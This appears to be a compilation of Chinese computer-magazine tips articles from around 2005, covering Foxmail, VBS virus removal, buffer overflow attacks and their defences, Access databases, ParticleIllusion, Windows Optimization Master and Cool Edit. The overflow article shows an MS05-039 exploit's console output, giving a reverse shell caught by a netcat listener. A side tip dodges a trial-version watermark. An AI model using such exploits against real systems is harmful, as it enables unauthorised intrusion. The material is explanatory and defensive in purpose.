  右击要应用该模板的账户，选择“建新邮箱”，新建一个名为“模板”的邮箱用来保存将要制作的模板。单击“撰写”写一封新邮件，设置收件人为“software@cfan.com.cn”，主题为“投稿-聪明用电脑-XXXXXX-陈桂鑫”，并设置好正文内容的具体格式。全部设置好后单击“保存”，把它保存到发件箱中。打开发件箱找到刚写的新邮件，选中，用鼠标左键将其拖动到左侧“模板”邮箱上，确定把这个邮件转移到模板邮箱中。这个就是我们要的全能模板了。

- 2. 使用
  打开“模板”邮箱找到主题为“投稿-聪明用电脑-XXXXXX-陈桂鑫”的模板邮件，双击打开就可以用这模板写新邮件了。由于收件人、主题、正文格式等都已经设置好了，我们只要加入附件，再把主题中的XXXXXX改成文章名就可以直接发送了。此时若选择保存则信件将会自动保存到发件箱，而不会影响到模板邮件。

  小提示：由于打开模板编辑后就只能保存到发件箱，所以要修改模板时，要在修改保存后，再从发件箱中把它拖动转移到模板邮箱来，然后删除旧模板邮件。

### 突破附件限制

- 1. 寄信
  按打开Foxmail 5.0按正常的方式撰写邮件添加附件并保存。打开发件箱，选中刚刚保存的邮件，单击“文件→导出邮件”菜单项，保存类型选择为“文本文件(*.txt)”，保存到桌面。双击打开保存在桌面上的邮件文本，按Ctrl + A全选，复制。再重新写一封新邮件，把正文内容全部删除，把复制的内容粘贴进去保存。现在你就可以寄发这封没有附件的信了，其大小与带附件后相同。

- 2. 收信
  对方收到信以后，把信的正文全部选中复制，打开记事本或写字板等文字编辑程序进行粘贴，保存为文本文件，如来信.TXT。然后通过重命名把这个文件的扩展名改为EML再回到Foxmail中打开收件箱，单击“文件→导入邮件”，导入这个EML文件即可看到写有附件的信了。
  其实若不需要把邮件保存到信箱中，也可以在重命名后直接打开查看的。你只要右击这个EML文件选择“打开方式→选择程序”，选择使用Foxmail程序打开查看即可。
（福建 陈桂鑫）

（福建 陈桂鑫）

## 杀毒软件你也可以DIY

对于一般人来说，杀毒软件是很难制作出来的，不过其实用VBS，就能简单地制作出脚本文件。

小提示：有关VBS脚本的入门知识请参考本刊2004年第6期《菜鸟也来编程序——Windows脚本编程入门通》。

制作杀毒软件，主要用到的就是通过脚本对注册表、进程及文件进行操作。而通过这些操作就可以对一些自我保护能力不强的蠕虫、木马进行查杀。

“简妮”病毒是最近流传比较广的QQ尾巴蠕虫之一，它会自动向用户的QQ好友发送内容为“刚才听了一首歌，很像是你唱的？你听听http://www.*******.com/down.asp?id=XXXX”的消息，点击这个地址就会下载到病毒文件。

粗略分析一下这个病毒，从网站下载的病毒文件名为asdf.exe，采用RealOne播放器的图标。病毒运行后会向系统目录中写入gedit.exe、mscript.exe、system.exe和wups32.dll几个文件（见图）。
同时在注册表的[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]项下添加system键，在[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows]项下添加load键。



手工清除这个病毒大致分为三步：①结束病毒进程；②删除病毒文件；③删除/修复被病毒改写的注册表项目。Windows的脚本功能刚好提供了这些操作，因此我们可以编写一个脚本来查杀此类病毒。
由于程序代码过长，这里不再列出，请登录http://www.newhua.com/cfan/200521/dm.txt查看。

小编有话说：如果你已经中了QQ病毒，又不会使用VBS，可以从http://www.newhua.com/cfan/200521/QQClean.rar下载高手制作的QQ杀毒专用工具。
（瑞星工程师 史玛）

## 溢出攻击 攻防录

随着网络普及，大量公开的Shellcode(“溢出”代码)与溢出攻击原理都能在各大安全网站中找到，也由此衍生了一系列安全隐患，很多稍微了解网络安全知识的人都可以利用现成的攻击软件轻易发动溢出攻击获得服务器权限。

### 1. 什么是“溢出攻击”？

“溢出攻击”就像是将很多沙子倒入装满水的容器时，水就会溢出来一样。目前，大多溢出攻击都是针对缓冲区的溢出。当缓冲区溢出时，过剩的信息对电脑内存中原有内容进行完全替换，如未进行备份，你的内容就永远丢失了。

### 2. “溢出攻击”的实现

一般入侵者在网上了解或发现了可以进行溢出攻击的漏洞后，使用缺陷扫描器(如全面扫描的X-SCAN、针对单一漏洞扫描的IIS WEBDAV等工具)找到并确认存在远程溢出漏洞的电脑，接着便使用利用攻击代码编程成的Exploit(攻击程序)发送Shellcode攻击；确认远程溢出成功后使用NC或TELNET等程序连接被溢出主机的端口，从而得到CMDSHELL。



```
C>版权所有 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator>nc -v -p 1234
```

```
MS05-039 Windows Plug and Play Overflow Exploit
Connect back shellcode Edition by super@mod.net

Tested on Windows 2000 SP4 CN

[+] Trying to connect to 192.168.0.100:445 ...
[+] Making null session...OK
[+] Trying to find vulnerability...OK
[+] Exploiting...OK
[+] Exploit done, check your reverse shell on 192.168.0.100:1234
```

```
C:\Documents and Settings\Administrator>nc -v -l -p 1234
listening on [any] 1234 ...
connect to [192.168.0.100] from CZJ [192.168.0.104] 1676
Microsoft Windows 2000 [Version 5.00.2195]
<C> 版权所有 1985-2001 Microsoft Corp.

C:\WINNT\system32>
```

### 3. 如何对溢出攻击进行防护？

说到防护，首先要定时更新有效补丁，微软官方补丁发布下载地址是 http://www.microsoft.com/china/。但如果攻击者用的是尚未发布补丁的攻击程序呢？所以打补丁是有效，但不是惟一的方法。下面就来看看如何手动设置，对溢出攻击进行防御。

- - 第一步：在Windows 2000/2003，可以建立一个用户，如 boxer，密码最好用大于8位的数字与字母的混合方式，而且如果觉得还不够强壮，可以在用户名前面加上一个字符“$”。这样，可以建立一个隐藏账户，入侵时攻击者无法利用“net user boxer password”命令来修改这个用户的密码。另外强调一点，boxer必须是USER组的。

- - 第二步：对于Windows 2000/2003，建立用户后，打开 C:\WINNT\System32(系统安装在C盘)，找到 cmd.exe，用右键选择“属性”项，在“安全”标签下修改 cmd.exe 的访问权限，只保留刚刚新建立的 boxer 用户对 cmd.exe 的完全控制权限，将其他用户全部删除，尤其是 Everyone。

  之后，找到 net.exe 文件，按照 cmd.exe 的方法进行设置，如果在找到 net.exe 的同时，还发现了 net1.exe，也要设置为一样的权限，完成上述限制后，最基本的防御措施就完成了。

  在Windows XP下，cmd.exe的“属性”选项里已经没有了“安全”标签，可以点击“开始→运行”，输入 gpedit.msc，打开“组策略”窗口。

  在组策略中，依次展开“计算机配置→Windows 设置→软件限制策略”，右击后，选择“创建新的策略”。然后，继续展开“软件限制策略→其他规则”项，右击该项，选择“新建散列规则”。在弹出窗口中点击“浏览”按钮，选择 C:\WINNT\System32 下的 cmd.exe 文件，设置“安全级别”为“不允许的”。对 net.exe 文件执行同样的操作，进行限制。

  Windows XP中经过设置后任何用户将不能调用 cmd.exe 和 net.exe 命令了。此方法只适合在溢出程序被发布后没有相关的补丁情况下进行应急防护，如果用户不需要用到 cmd.exe 及 net.exe 命令。推荐利用此方式禁止运行。

  另外还有一种情况就是一些攻击者可能通过其他途径得到用户电脑上某些软件的操控权限，如 FTP 服务、WEB 服务等，在这种情况下很可能出现利用 Windows 系统本身的 TFTP 服务进行木马上传或本地溢出程序。所以，最后再来讲解一下防止攻击者利用 TFTP：进入 C:\WINNT\System32\Drivers\Etc，用“记事本”打开文件 services，把 TFTP 端口改为 0。这样，攻击者就无法通过使用 TFTP 指令传输溢出程序了。当然，为了更好的安全性，也可以将 TFTP.EXE 文件，按前面介绍的方法，添加为只能让 boxer 用户才能使用的命令。

  通过上面操作后，一般用户的电脑就能防御大部分针对个人用户的溢出攻击了。

## 用数据库技术打造个人任务管理器(1)

你是否为大量数据而烦恼过？或许你仍然使用文本文件或电子表格来管理你的数据，如果你想寻求一个更灵活更安全的数据管理方案，数据库(Database)是不二的选择。实际上，从计算机软件体系的进化史中，正如操作系统封装了软件和硬件的交互为软件开发带来巨大方便一样，数据库正是为了弥补文本和电子表格在处理大数据量上的不足而演化出来的一个软件类别，在金融、信息等行业中有广泛的应用。

### 个人任务管理简介

这个项目的功能是为自己量身订做一套个人任务管理系统，帮助我们定制新任务、察看今日或者今后未完成的任务以及查询历史上完成的任务。每个任务不但有标题和内容，此外还可以根据主题分类、根据重要度来排序(见图1)。



### 为任务搭建数据库

首先要借助 Access 建立一个新的数据库，好比政府批下一个巨大的空地，可以用来容纳各种花花草草。

- - 第一步：启动 Access 2003，依次单击菜单条中的“文件”、“新建”，然后在右侧的“新建文件”窗格中单击“空数据库”项。

- - 第二步：在新建对话框中设置好文件名“个人任务管理”和保存路径后单击“创建”按钮，一个新的数据库便建立完毕。

### 用表分类存储数据

有了空地，就可以在上面种植各种各样花花草草以及布置假山流水了。在数据库中，表(Table)是用来存储相关数据的基本单位，一个数据库可以拥有许多表。表包含了许多记录(Record)，每个记录是由多个字段(Field)数据组成。比如，通讯录就是一个表，每个人的信息都是一条记录，而个人信息一般是由姓名、手机、座机等字段构成，每个字段还可以有不同的类型，比如姓名是字符，而手机则是数字。有了数据库，我们便可以按照一定规则把数据分门别类放在不同的表中，以便更高效更准确地操纵数据。

个人任务管理系统共用到三个表格：任务、重要度、主题。让我们以任务表为例讲解一下表格的设计。

能确保唯一性。

标题不会太长，用“文本”类型比较节约数据库空间。而内容有可能很长，所以用“备注”类型。结束日期用“日期/时间”类型，可以在用户输入不合法日期时给出提示。完成标识符只有是否的差别，所以选择“是/否”类型。由此可见，给字段规定类型，一方面可以扩充表达能力，另一方面保障了数据的合法性。

第二步：定制主键。主键是用来保障记录唯一性的字段。比如学号、身份证号其实都是主键，因为同名同姓的人多的是，单单用姓名无法保证唯一性。右击编号字段选择主键选项，编号字段左侧将出现钥匙型的图标，表示它已经是主键了。

第四步：保存表格。单击菜单栏上的“保存”图标或者用 Ctrl+S 组合键便能够保存这个表格，取名“任务”即可。这样，第一个表格便建立好了。

同理，可以仿照以上步骤创建重要度和主题表格，它们的定义分别如图3、4所示。





有了表格以后便可以往里面输入数据了。现在双击数据库窗口中的重要度表格，分别创建重要度为 A 至 E 的五条记录。双击数据库窗口中的主题表格，添加一些符合自己需要的主题，比如旅游、健身、聚会等等（见图5）。



注意哦，序号字段都是不需要你手动参与的，它的内容是系统自动给出的。至于任务表的内容嘛，请看下文分解。

### 建立起表之间的关系

我们现在有了花花草草和假山流水，还需要道路和小桥把它们有机结合起来，才能够实现柳暗花明的韵味。在数据库中，一般是通过表的主键来建立起表与表之间的关系的。比如，我们现在希望每个任务还有重要度和主题这样的属性以便排序和分类，则可以这样做：

第一步：打开“任务”表的设计视图窗口，新建一个名为重要度的字段，类型为“查阅向导”，这时 Access 将弹出查阅向导，选择“使用查阅列查阅表或查询中的值”然后单击下一步，选择“表：重要度”然后单击下一步，点击“>>”按钮然后单击下一步，选择“序号”为升序然后单击下一步，在最后一步中采用默认选项之后点击完成即可。

第二步：打开“任务”表的设计视图窗口，新建一个名为主题字段，类型为“查阅向导”，这时 Access 将弹出查阅向导，选择“使用查阅列查阅表或查询中的值”然后单击下一步，选择“表：主题”然后单击下一步，点击“>>”按钮然后单击下一步，选择“主题”为升序然后单击下一步，在最后一步中采用默认选项之后点击完成即可。

第三步：依次点击菜单栏上的“工具”、“关系”，如果操作无误，你应该可以看到如图6所示的关系图。



这时，你可以试着往任务表中输入数据了，如图7所示。注意到重要度和主题是可以从下拉框中选择的哦！



说得理论一些，任务表中的重要度字段和主题字段实际上是引用了其他表的主键，所以称为外键，它可以作为一种强制性的约束，要求这个字段的值是被引用表中必须存在的，这样保证了数据的完整性。此外，如果某天把主题表中的“聚会”改成“聚餐”，则任务表中的主题字段会自动进行修改，因为表之间是依靠键来关联的，而具体显示的值是查询出来的，这也都是使用键来关联的好处。不过，有利必有弊，这样做也带来许多不方便的地方，因为重要度表的主键是自动编号类型，是数字，而手动编辑任务表数据时在重要度字段本应该输入序号而不是 A 或者 B 这样字符的。好在 Access 为我们做了额外的工作，这些都不需要我们费心了。

### 小结

通过本文，我们了解了数据库的基本概念，并且利用 Access 打造了一个可用的任务管理器。在下一篇中，我们将利用数据库强大的功能，做出更精美更实用的管理系统。文中设计的数据库文件可以 http://www.cfan.com.cn/11program/200521/todomanager.zip 下载。

## 风色幻想TV秀——ParticleIllusion特效尝试

在三维动画中，有许多特殊效果（如：云、水、雾、雪、烟花等）都是通过粒子系统（particle systems）来实现的，一般只有大型的三维制作软件才具有这样的功能。如果我们平时想为数码照片或一段视频电影添加粒子特效，是不是非要学习 3DS MAX 或 MAYA 这类操作非常复杂的三维软件呢？不一定，借助一些小的软件工具，同样能轻松实现如风一样的幻想。

### ParticleIllusion小档案

- 软件版本：3.01a
- 软件大小：9729KB
- 软件性质：试用版
- 适用平台：Windows 98/ME/2000/XP
- 下载地址：http://www.wondertouch.com/downloads/particleillusion_301a_demo.zip
- 软件备注：没有注册的软件，限制了输出视频尺寸的大小（仅640 × 480像素一项可选），并在输出影片上会叠加上水印。

### 实例：四步，再现大坝泄洪壮景

一张普通的大坝照片，经过四步简单处理变成了气势磅礴的泄洪场景动画（见图）。



- 第一步：启动ParticleIllusion，在窗口左上角图层面板里右击默认层图标，选择“Background Image（背景图像）”命令，打开导入文件对话框，导入一幅大坝图片。导入后在预览窗里使用鼠标滚轮可以调整视角大小。

- 第二步：在右下角的资源库中，单击“Group 1”类别下的“Water jet”水流效果。用鼠标在图像中依次点击大坝下方的几个闸门位置，设置水流的喷射原点。这时候点击窗口工具栏里的播放按钮，就可以看到泄洪的场景动画了。

- 第三步：为了让动画场景看上去更真实，可进一步调整各个水流的大小，使其符合透视规律。使用工具栏上的选择工具（白箭头图标），在画布上单击选择某个水流发射原点，再在窗口左侧的参数栏里选择该发射原点下的“Size”参数，接着在下方窗口中拉动垂直坐标上的滑块，即可调整水流的大小了，可由远及近将各个水流设置为由小到大。再使用工具栏上的“Add Blocker”工具，在最近的闸门立柱上拉出一个方框覆盖后，再把第一个原点调整到方框后面，这样可使最近闸门的水流由“点喷射”改为“面喷射”。这样做出的效果就真实多了。

- 第四步：给水流增加飞溅效果。使用工具栏“Add Deflector”工具，在画布底部由左向右拉出发射变流设置线，再调整一下发射的各项参数，预览效果满意之后，按下工具栏上的红色按钮就可以保存为视频了。

ParticleIllusion内置有近百种特效，像各种烟火、星光、霓虹、闪电等，效果非常的炫。另外，ParticleIllusion不仅支持导入图片，同样也支持AVI格式视频文件的导入，朋友们可以用它给自己的DV素材添加上流光溢彩的效果。美中不足的是试用版生成的电影画面上有水印，不过在预览时是没有水印的，因此我们可以在预览时开启一些视频捕捉工具将动态画面抓取下来。

（山东 猫咪老爸）

# 菜鸟瞬间变“Windows优化大师”

如何让Windows工作效率更快更高，是许多菜鸟与高手共同关注的话题。高手们有能力通过修改注册表等多种手段来让系统更好地工作，而菜鸟们呢？其实做“菜鸟”有时也是一件挺幸福的事情，因为我们无须像“高手”一样去绞尽脑汁，只要借助于一些现成的软件工具，同样能完成系统的优化与维护工作。今天推荐给大家的系统优化工具，就是——Windows优化大师。

## 实例1:给系统做一遍“全身”优化

Snow的电脑并不旧，到现在还不到一年，512MB内存，AMD64 2800+的CPU，怎么着也算是中档水平。但她却总觉得用起来不顺手，感觉还不如别人的老机器好使。Snow的好友阿涛发现，原来她的Windows XP没有经过优化，于是决定用“Windows优化大师”帮她做一次全面的性能提升。

第一步:启动Windows优化大师，单击界面左侧的“系统性能优化”按钮展开下面的选项，点击其下的“磁盘缓存优化”选项卡，再在右侧将“输入/输出缓存大小”下面的滑钮拖动调整到64MB，然后把“内存性能”下面的滑钮拖到最左侧。选中“计算机设置为较多的CPU时间来运行”，并单击其右侧下拉按钮，选择为“应用程序”。同时选中“缩短关闭无响应程序的等待时间”、“Windows XP自动关闭停止响应的应用程序”和“缩短应用程序出错的等待响应时间”，最后点击右下角的“优化”按钮(见图1)。磁盘缓存优化需要重启才能生效，这里暂不重启，继续执行下面优化操作。本例中的几步设置基本上都要在重启之后才能生效，下面就不再重复说明了。



图1

第二步:在左侧点击“桌面菜单优化”选项卡，然后在右侧把“开始菜单速度”和“菜单运行速度”下面的滑钮拖到左侧第一格处，把“桌面图标缓存”调整为“2058KB”，然后选中下面的“关闭菜单动画效果”、“关闭平滑卷动效果”、“加速Windows的刷新率”、“关闭‘开始’菜单动画提示”、“关闭动画显示窗口、菜单和列表等视觉效果”、“启动系统时为桌面和Explorer创建独立的进程”以及“当Windows用户界面或其中组件异常时自动重新启动画面”等选项，最后点击“优化”按钮。

第三步:点击“文件系统优化”选项卡，把CD/DVD光驱的优化选择设置为“Windows优化大师推荐值”(本例中是第三格处)，同时选中下面的“需要时允许Windows XP自动优化启动分区”、“空闲时允许Windows XP在后台优化硬盘”、“关闭调试工具自动调试功能”、“优化毗邻文件和多媒体应用程序”。点击右侧“高级”按钮，在打开的对话框中设置毗邻文件和多媒体应用程序的优化值，拖动滑钮时，滑杆下面会显示“15GB左右硬盘推荐”、“30GB左右硬盘推荐”等字样，可根据你的硬盘大小进行设置，Snow的硬盘有120GB，所以这里将大小设置为“40G以上”(即最右侧一格)，确定后返回，最后点击“优化”按钮。

第四步:点击“网络系统优化”选项卡，因Snow家里用的是ADSL宽带上网的方式，所以把“上网方式选择”设置为“PPPoE”，每个人可根据自己的实际情况选择其他项。然后选中下方的“IE同时连接的最大线程数”，并将数值修改为“5”，这时该项后面会显示“推荐设置”字样。选中“加快Windows XP浏览局域网的速度”、“启用最大传输单元大小自动探测、黑洞路由器探测、传输单元缓冲区自动调整”、“启用选择性应答并优化快速转发机制”以及“增强IE网址自动探测能力”。最后点击“优化”按钮(见图2)。



图2

第五步:点击“开机速度优化”选项卡，然后向左侧(即“快”一侧)拖动“启动信息停留时间”滑钮，直到上面显示出“直接进入”字样，同时选中下方的“采用Windows XP快速启动方式”，把预读方式设置为“二者均预读(推荐)”，选中“异常时启动磁盘错误检查等待时间”项，并将其右侧的值调整为2。然后在下方列表中根据自己的实际情况去除一些不必要的开机自动运行程序(单击去掉复选框中的对钩符号即可)。最后点击“优化”按钮。

第六步:点击“系统安全优化”选项卡，选中“分析处理选项”中的全部选项，并选中了下面的“禁止用户向Windows XP建立空连接”、“禁止系统自动启用服务器共享”和“禁止系统自动启用管理共享”，最后点击“优化”按钮。

第七步:点击“后台服务优化”选项卡，然后直接点击下方的“优化”按钮，Windows优化大师将按照预置的参数，关闭一些不必要的服务。如果你是一个高手的话，则可以自定义关闭或开启哪些服务。

第八步:关闭Windows优化大师，重启系统，上面设置便会生效。

> 小提示
> ★注意:在进行本例优化(以及本文后面的实例操作)前，一定要先做好注册表备份工作，以防万一出现故障，也好恢复系统注册表数据。推荐使用本刊2004年第18期上《Windows 2000/XP开机自动备份注册表》一文中介绍的软件ERUNT进行备份和恢复。
> ★以上实例只是一个个案，根据每个人实际情况，有些参数设置会有所不同。如果不愿意亲自设置每一项，或对众多的选项设置不知所措，可以在Windows优化大师中点击“系统信息检测→自动优化”，尝试让软件根据系统情况自动设置优化项目。
> ★对于每一步优化，Windows优化大师都提供了恢复功能(每一步骤中都有一个“恢复”按钮)，出现问题时，可以通过Windows优化大师非常轻松地把系统恢复到原来的状态。

## 实例2:系统大扫除

重新开机后，Snow发现开机速度快了很多，各个程序启动速度也快了一点，甚至连播放DVD都更加流畅了，她高兴极了。但阿涛却发现，任务还没有完成，原来Snow的电脑自从买回来之后，就没有重装过操作系统，系统内垃圾很多。阿涛决定继续帮Snow把系统中的垃圾彻底清理掉！

第一步:在界面左侧点击“系统清理维护”按钮，展开它下面的选项，然后点击“注册信息清理”选项卡，再单击右上角“扫描”按钮，扫描结束后，注册表垃圾会显示在下方的列表中。最后点击“全部删除”按钮，将这些垃圾删除即可。也可以有选择地选取部分项目，再单击“删除”按钮清除。

第二步:点击“垃圾文件清理”选项卡，在磁盘列表中单击勾选所有硬盘，接着点击“扫描”按钮，列出所有垃圾文件，最后既可以点击“全部删除”按钮删除扫描到的所有文件，也可以点击勾选其中的部分文件，再单击“删除”按钮只删除部分(见图3)。另外，点击下面列表中的其他书签，如“扫描选项”、“删除选项”、“文件类型”书签，可以分别设置扫描垃圾文件的各种选项，设置是直接删除文件还是删除文件后将其备份到指定目录以防误操作，以及自定义哪些后缀名的文件为垃圾文件等。



图3

第三步:点击左侧“冗余DLL清理”选项卡，再在右侧单击勾选所有的磁盘，然后点击“分析”按钮，可以查找系统中所有无用的DLL文件，最后点击“全部删除”按钮将之全部清理掉，或有选择地选中某些文件，再单击“删除”按钮清除。

不过进行这一步操作的时候，一定要有选择地删除。比如笔者在硬盘上备份了显卡、声卡等的驱动程序，其中DLL文件也被分析成冗余DLL文件了，幸好可以单击右上角“恢复”按钮来一个一个恢复，不然又得要找出各个驱动光盘来重新备份了。

第四步:点击“ActiveX清理”选项卡，再点击“分析”按钮，Windows优化大师自动分析系统中存在的ActiveX程序是否有效，并将结果显示出来，最后点击“全部修复”按钮，将其修复。

> 小提示
> 为引起朋友们的注意，这里重复一下上面的提醒:Windows优化大师在查找系统垃圾时，有时会把有用文件也视为垃圾，因此在删除垃圾文件前，一定要仔细核对，以确保有用的文件不被删除。所以“全部删除”功能，要慎用哦。

## 实例3:卸载无用软件

Snow前一阵子借了朋友的Sony数码摄像机，在自己的机器上安装了相应软件，但把DV还给人家之后，Snow却发现安装好的软件没有提供卸载功能。阿涛告诉Snow，智能卸载软件也是Windows优化大师的强项。不过，如果软件自身带有卸载功能，或者可以在Windows的“添加或删除程序”中可以卸载的话，最好还是不要使用Windows优化大师的这一功能。

第一步:在Windows优化大师中点击“系统清理维护→软件智能卸载”。

第二步:在上方程序列表中选中Sony DV的配套程序“picture Package”，然后点击右侧的“分析”按钮，Windows优化大师对软件进行分析后，就可以进行卸载了。

## 实例4：定制右键菜单和输入法顺序

Snow 不怎么爱玩游戏，充其量就是每天玩玩 Windows XP 自带的蜘蛛纸牌而已。阿涛决定把蜘蛛纸牌添加到系统的右键菜单中，这样只要一点右键，就能随时启动蜘蛛纸牌，不用再从程序菜单中选择了。

-   1. 在 Windows 优化大师中点击“系统性能优化→系统个性设置”。
-   2. 在“右键设置”中，可以根据自己的需要单击勾选相应选项，轻松地为右键菜单添加清空回收站、关机、重新启动系统等命令。
-   3. 单击“更多设置”按钮，打开“右键菜单设置”窗口，在“‘新建’菜单”、“‘发送到’菜单”标签中，通过简单的点击即可定制“新建”、“发送到”等右键菜单中的项目。本例，点击“自定义右键”标签，在下面的“右键名称”中输入“蜘蛛纸牌”，点击“右键执行命令”右侧的文件夹图标，找到程序“C:\Windows\system32\spider.exe”，这就是蜘蛛纸牌的执行程序，然后点击“增加”按钮，即可把蜘蛛纸牌添加到系统的右键菜单中。
-   4. 在“系统个性设置”中，还可以调整输入法的排列顺序，比如要把五笔字型排到第二位，这样只要一按“Ctrl + 空格”，就会直接转到五笔字型中。点击下方的“输入法顺序”，在打开的“输入法顺序设置”窗口中选中“王码五笔型输入法86版”，再点击“向上”按钮，一直将其置于“中文（中国）”下面，点击“应用”按钮即可。

## 实例5：讨厌的 IE 插件别烦我

Snow 上网时，最讨厌那些不请自到的 IE 插件了，有时一不留神，点错了按钮，就会把它们装到系统上。如果不装，每次浏览网页又总有个提示，很烦人！阿涛告诉 Snow，其实 Windows 优化大师也想到了这个问题，只要简单几步，就可以避免大多数插件的干扰。

-   1. 点击“系统清理维护→其他设置选项”。
-   2. 在“禁止 / 取消浏览网页时以下 ActiveX 插件安装提示”中点击“全选”按钮（也可以单击选中其中部分插件），然后点击“确定”按钮。
-   3. Windows 优化大师提示用户“ActiveX 插件‘禁止安装 / 允许安装’设置已经完成”，点击“确定”按钮返回即可。

> 对于 Windows 优化大师暂时不认识的插件，可以试试下面的方法来手工禁止插件的下载。
> 第一步：当安装插件窗口弹出时，点击“更多选项”，IE 的安全警告窗口会提供给用户更多的选择（见图4）。
> 第二步：选中“从不安装来自 XX 的软件”，然后点击“不安装”按钮即可。

## 实例6：给自己的电脑做个“体检”

Windows 优化大师还提供了系统测试功能，下面就让我们来看看自己的电脑能得多少分。

-   1. 单击界面左侧“系统信息检测”按钮，展开它下面的选项，这里我们可以方便地查看系统信息、处理器与主板信息、音视频信息、网络系统信息等。在这里，我们点击最下面的“系统性能测试”选项卡。
-   2. 可以看到，Windows 优化大师提供了两套系统平台（Intel、AMD 平台各一套）的评分供我们参考。单击“测试”按钮，将先弹出一个警告窗口，提示我们先关闭其他运行的程序，单击“确定”即可开始测试我们自己的电脑系统了。最后可以比较一下自己的系统与给出的参考系统差距有多少。
-   3. 单击下方的下拉按钮，选择“纯色测试”，然后再单击“测试”按钮，这一项可以查看你的液晶显示器是否有坏点。



## 实例7：我的文件你别看

Snow 问阿涛，自己有一张网友的照片，有什么法子能不让别人看呢？阿涛的答案是加密，用 Windows 优化大师提供的另外一个组件给照片文件加上密码，这样只有知道密码的人才能打开它。
第一步：点击“开始→程序→Windows 优化大师→Windows 文件加密”，启动加密程序（见图5）。



-   1. 在下方左侧选择相应的文件夹，然后在右侧文件列表中双击需要加密的文件（如:pic01.jpg），该文件将被添加到上方的文件列表中，用鼠标点击右侧的密码区，输入密码“12345”。
-   2. 点击“加密”按钮，该文件即被加密。加密后的文件将被添加一个扩展名 wom ec，如“pic01.jpg”将变成“pic01.jpg.wom ec”。在双击此文件时，会弹出一个密码确认对话框，只有输入正确的密码，才能够打开该图片。千万别忘了密码哦，否则会连你自己也打不开这个文件了。

> 如果想去掉已经加密的文件的密码，可以在“Windows 文件加密”窗口中双击被加密的文件，在密码区输入密码，然后点击“解密”按钮即可。

限于篇幅，Windows 优化大师还有许多优秀的功能本文没有介绍到。不过，这款软件操作非常简便，即使没有人教，也能快速上手，而且软件自带的帮助系统也非常完善。大家可以自己去尝试一下它的其他功能，但是需要注意的是，尝试之前一定要备份好注册表及其他一些重要文件，以防误操作造成数据丢失。

## 密技大补贴

## Windows 弹指神功十大独门秘技

正如好的武器还需配上好的武功一样，通过 Windows 优化大师优化系统后，我们操作电脑的技巧也需要相应提高，这样才能更有效地利用好电脑。其实 Windows 内置了很多实用的快捷键，可以让我们省去频繁切换键盘与鼠标的时间，带来操作上的便利。下面精选出其中最为常用的十招，倾囊传授给大家。

-   1. **第一招：资源管理器速现身**
    对于经常要使用资源管理器工作的用户，可以按 Win + E 组合键，就会打开 Windows 资源管理器了。
-   2. **第二招：桌面现身术**
    当打开了多个程序窗口，整个桌面都会被程序界面所掩盖，这时要在桌面上点击图标或快捷方式会很不方便，其实只要按 Win + D 组合键，所有窗口会即时最小化，桌面马上显现。另外，也可以使用 Win + M 组合键来实现，撤销此操作的组合键为 Shift + Win + M。
-   3. **第三招：IE 窗口逐个关**
    有时开启多个 IE 窗口，浏览完毕要关闭窗口，除了可按 Alt + F4 组合键外，还可直接按 Ctrl + W 这个专为关闭 IE 窗口而设的快捷键组合。
-   4. **第四招：快速变脸**
    有时打开多个程序工作，要在程序间切换时，很多人都会在任务栏上点按相应程序的窗口图标。其实只要按下 Alt 键不放；再按 Tab 键就会显示一个程序清单，每按一次 Tab 键就会跳到下一个程序图标，放开 Alt 键即会切换到所选程序的界面。
-   5. **第五招：另类快速变脸**
    跟第四式一样，按 Alt + Esc 组合键也是程序切换功能，不过这时不会出现程序选择清单，而是直接控制任务栏上的程序窗口图标，从而打开程序界面。
-   6. **第六招：文件复制移动大法**
    在 Windows 资源管理器或其他程序中经常会用鼠标拖移文件，不过有时是将文件移到某处，有时则是复制文件，配合键盘按键就可清楚地执行有关工作。按住 Ctrl 再拖移文件，会将文件复制。按住 Shift 再拖移文件，就会将文件移到指定的文件夹中。
-   7. **第七招：程序一点即关**
    当要关闭程序时，通常都会在文件菜单中选择关闭或按界面右上角的关闭按钮。而按 Alt + F4 组合键可代替这些步骤，即时关闭程序。
-   8. **第八招：系统属性即点即显**
    通常显示“系统属性”对话框的方法是在“我的电脑”上单击鼠标右键，然后选择菜单中的“属性”命令。不过，使用 Win + Break 要更快捷。
-   9. **第九招：快捷方式的快捷创建**
    创建快捷方式有一个简单的办法，那就是在按住 Ctrl + Shift 组合键的同时把文件拖动到目的地。
-   10. **第十招：不要忘记小键盘**
    在“资源管理器”中，小键盘上的几个符号有它的独到用途，折叠所选的文件夹：Num Lock + -；展开所有文件夹 Num Lock + *；展开所选的文件夹 Num Lock + +。

> 买十送五
> ★ 激活程序的菜单栏: 激活程序中的菜单栏通常用鼠标点击上面的菜单条，其实最简单的办法当然是按 Alt 键，现在打开资源管理器，再按 Alt 键试一试。
> ★ 关闭多文档程序中的当前窗口: Ctrl + F4 组合键可用于 Word、Opera、WPS 等多文档软件，主要是关闭当前窗口。
> ★ 快速查看项目属性: 查看项目属性的最快捷的方法是在选择了项目后用 Alt + 回车键或按下 Alt 键后双击鼠标左键。
> ★ F4键在对话框中的用途: F4 键在“另存为”对话框中表示打开“保存在”选择列表，在“打开”对话框中表示打开“搜索”选择列表。
> ★ 一次关闭所有文件夹: 在“我的电脑”中关闭所选文件夹及其所有父文件夹的方法是按住 Shift，再单击“文件”菜单下的“关闭”命令。

（常春云 老周）

# 再见“音”雄！ Cool Edit Pro 实例集锦

## 实例1: 直接提取VCD上的伴奏乐

伴奏音乐的效果, 直接影响着翻唱音乐的质量。而通过实践, 笔者发现从网上下载的MP3, 绝大多数都是混合型声道, 在采用多种方法消除人声后, 既费时费力, 而且效果也较差。其实大家可以到一些翻唱网站(如:http://www.163888.net/JoinBz/index.aspx, 这里有上万首歌曲伴奏, 相信应该可以找到你所需要的)下载伴奏音乐。另外, 还可以通过Cool Edit直接从VCD歌曲光盘上获取精美的伴奏。

> > 小提示
> > 一般音乐VCD都会有一个片头, 所以与封面上的歌曲序号对应时, 要向后顺延一个数字。如图1中所选序号为02的文件, 实际上是第1首歌。

### Just Do It

-   - ★批量捕获CD中的音乐
    第一步:将音乐CD放入光驱中, 切换到Cool Edit波形编辑窗口, 选择菜单“文件→从CD中提取音频”命令, 调出提取对话框, 选择“ASPI/SPTT”选项。
